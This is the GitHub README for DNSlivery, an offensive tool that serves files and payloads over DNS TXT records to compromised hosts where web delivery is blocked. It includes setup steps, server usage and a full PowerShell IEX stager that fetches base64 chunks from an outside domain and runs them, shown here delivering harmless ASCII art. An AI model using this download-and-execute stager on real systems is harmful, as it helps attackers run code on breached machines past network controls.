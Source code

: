 # DNSlivery
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSLivery](#dnslivery)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.

![web-delivery-blocked.png](img/web-delivery-blocked.png)

Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 

![dnslivery-network.png](img/dnslivery-network.png)

As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to easily retrieve all base64 chunks and put them back together in their original format, DNSlivery will also generate a single cleartext stager per file.

![stager-delivery.png](img/stager-delivery.png)

Currently, only PowerShell stagers are supported.


## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving udp/53 traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSLivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory like (`pwd` by default):

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

## Target
On the target, start by **retrieving the stager** of the desired file by requesting its dedicated `TXT` record.

| Action  | Stager                     | Description                                           |
| ------- | -------------------------- | ----------------------------------------------------- |
| Print   | `[filename].[domain]`      | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]` | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]` | Save the delivered file to disk (useful for binaries) |

Then, simply **copy and paste the stager quoted in the response to a PowerShell console** to retrieve the file on the target.

**Example**:
```
PS> nslookup -type=txt file.exec.dnsd.no0.be
Server:  one.one.one.one
Address:  1.1.1.1

Non-authoritative answer:
file.exec.dnsd.no0.be   text =

        "IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((0..6 | % {Resolve-DnsName -type TXT -Name "file.$_.dnsd.no0.be" | Where-Object Section -eq Answer | Select -ExpandProperty Strings}))))"

PS> IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((0..6 | % {Resolve-DnsName -type TXT -Name "file.$_.dnsd.no0.be" | Where-Object Section -eq Answer | Select -ExpandProperty Strings}))))
Fight Bugs                      |     |
                                \\_V_//
                                \/=|=\/
                                 [=v=]
                               __\___/_____
                              /..[  _____  ]
                             /_  [ [  M /] ]
                            /../.[ [ M /@] ]
                           <-->[_[ [M /@/] ]
                          /../ [.[ [ /@/ ] ]
     _________________]\ /__/  [_[ [/@/ C] ]
    <_________________>>0---]  [=\ \@/ C / /
       ___      ___   ]/000o   /__\ \ C / /
          \    /              /....\ \_/ /
       ....\||/....           [___/=\___/
      .    .  .    .          [...] [...]
     .      ..      .         [___/ \___]
     .    0 .. 0    .         <---> <--->
  /\/\.    .  .    ./\/\      [..]   [..]
 / / / .../|  |\... \ \ \    _[__]   [__]_
/ / /       \/       \ \ \  [____>   <____]
```
